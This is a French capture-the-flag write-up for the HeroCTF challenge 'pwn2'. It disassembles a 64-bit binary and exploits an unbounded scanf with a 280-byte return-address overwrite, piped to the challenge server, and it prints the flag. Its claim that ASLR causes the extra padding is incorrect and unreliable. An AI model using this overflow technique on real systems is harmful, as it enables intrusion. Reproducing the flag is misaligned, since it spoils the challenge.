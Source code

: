 Pour cet ultime challenge de pwn, on a uniquement accès au binaire, et non plus au code source comme lors du premier challenge.

Commençons par se renseigner sur ce binaire :
```bash
$ file pwn2 
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2fc8ebe2b5eee35be7e503226787911a6a55a1c0, for GNU/Linux 3.2.0, not stripped
```
Nous avons donc un binaire 64bits pour Intel (x86-64), non strippé.

On ouvre ce binaire dans notre désassembleur favori (Cutter, IDA, Ghidra, Radare2...) et on regarde la fonction main():
```assembly
120: int main (int argc, char **argv);
; var char **var_120h @ rbp-0x120
; var int64_t var_114h @ rbp-0x114
; var char *s @ rbp-0x110
; var size_t var_4h @ rbp-0x4
; arg int argc @ rdi
; arg char **argv @ rsi
0x004011c0      push    rbp
0x004011c1      mov     rbp, rsp
0x004011c4      sub     rsp, 0x120
0x004011cb      mov     dword [var_114h], edi ; argc
0x004011d1      mov     qword [var_120h], rsi ; argv
0x004011d8      lea     rdi, str.Donne_moi_ton_nom_little_hackerz_: ; 0x402030 ; const char *format
0x004011df      mov     eax, 0
0x004011e4      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x004011e9      lea     rax, [s]
0x004011f0      mov     rsi, rax
0x004011f3      lea     rdi, [0x00402054] ; const char *format
0x004011fa      mov     eax, 0
0x004011ff      call    __isoc99_scanf ; sym.imp.__isoc99_scanf ; int scanf(const char *format)
0x00401204      lea     rax, [s]
0x0040120b      mov     rdi, rax   ; const char *s
0x0040120e      call    strlen     ; sym.imp.strlen ; size_t strlen(const char *s)
0x00401213      mov     dword [var_4h], eax
0x00401216      lea     rax, [s]
0x0040121d      mov     rsi, rax
0x00401220      lea     rdi, str.Ca_sera_pas_si_simple_cette_fois_jeune___s ; 0x402058 ; const char *format
0x00401227      mov     eax, 0
0x0040122c      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x00401231      mov     eax, 0
0x00401236      leave
0x00401237      ret
```
On peut utiliser le décompiler si l'assembleur ne nous semble pas clair (pas de honte à cela !) :
```c
undefined8 main(undefined8 argc, char **argv)
{
    char **var_120h;
    int64_t var_114h;
    undefined8 var_4h;
    
    var_114h._0_4_ = (undefined4)argc;
    printf("Donne-moi ton nom little hackerz : ");
    __isoc99_scanf(0x402054, (int64_t)&var_114h + 4);
    strlen((int64_t)&var_114h + 4);
    printf("Ca sera pas si simple cette fois jeune \"%s\"\n", (int64_t)&var_114h + 4);
    return 0;
}
```
On continue de se balader et on remarque une fonction intéressante !
```bash
$ nm pwn2 
00 00 00 00 00 40 11 82 T afficherFlagG4NG
[...]
```
Voyons voir celle-ci de plus près :
```assembly
62: sym.afficherFlagG4NG ();
0x00401182      push    rbp
0x00401183      mov     rbp, rsp
0x00401186      push    rbx
0x00401187      sub     rsp, 8
0x0040118b      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401190      mov     ebx, eax
0x00401192      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401197      mov     esi, ebx
0x00401199      mov     edi, eax
0x0040119b      call    setreuid   ; sym.imp.setreuid
0x004011a0      lea     rdi, str.cat_flag.txt ; 0x402008 ; const char *string
0x004011a7      call    system     ; sym.imp.system ; int system(const char *string)
0x004011ac      lea     rdi, str.Point_faible_:_trop_fort. ; 0x402015 ; const char *s
0x004011b3      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x004011b8      nop
0x004011b9      add     rsp, 8
0x004011bd      pop     rbx
0x004011be      pop     rbp
0x004011bf      ret
```
Cette fonction nous donnera le flag sur le serveur !

On constate dans le main que l'on peut écrire sans limite dans le buffer d'input, et on va s'en servir pour overflow le buffer de 256 caractères et réécrire l'adresse de retour : on veut ainsi appeler la fonction `afficherFlagG4NG` qui a pour addresse `0x0000000000401182`.

Dans l'idée on pourrait alors se dire qu'il faut écrire 256 caractères suivis de notre adresse (sans oublier le little endian) et que le tour est joué ! Eh oui... Mais non.

En effet, ici l'ASLR (Address Space Layout Randomization) est activée, ce qui a pour effet de mettre un espace dans la stack entre notre buffer et l'adresse retour de la fonction main. Il nous faudra finalement 280 caractères avant d'avoir la main sur l'adresse de retour.

On peut alors résoudre le challenge grâce à Python (eh oui, encore et toujours)
```python
$ python -c "print('A')*280+'\x82\x11\x40\x00\x00\x00\x00\x00'" |  nc heroctf.fr 3001
Donne-moi ton nom little hackerz : Ca sera pas si simple cette fois jeune "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
FFlag: HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
Point faible : trop fort.
```
HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
